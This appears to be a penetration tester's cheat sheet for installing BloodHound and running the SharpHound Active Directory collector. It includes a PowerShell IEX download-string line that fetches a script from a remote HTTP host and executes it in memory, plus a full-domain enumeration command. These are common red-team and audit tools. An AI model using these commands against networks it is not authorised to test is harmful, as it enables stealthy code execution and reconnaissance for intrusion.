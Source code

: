 # Installing Bloodhound
[URL] (https://github.com/BloodHoundAD/BloodHound)

## Cloning and Updating
```
git clone https://github.com/BloodHoundAD/BloodHound.git
git pull https://github.com/BloodHoundAD/BloodHound.git
```

## Forgot Neo4J Password
```
Delete this file: /usr/share/neo4j/data/dbms/auth
Start Neo4J: sudo neo4j console
Browse to http://localhost:7474
```

## Starting Bloodhound
```
sudo neo4j console
./Bloodhound --no-sandbox
```

## Running SharpHound
```
Install the module: . .\SharpHound.ps1
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.4/SharpHound.ps1') #Loads directly into memory#
Invoke-BloodHound -CollectionMethod All -Domain <domain> -ZipFileName <filename.zip>
```

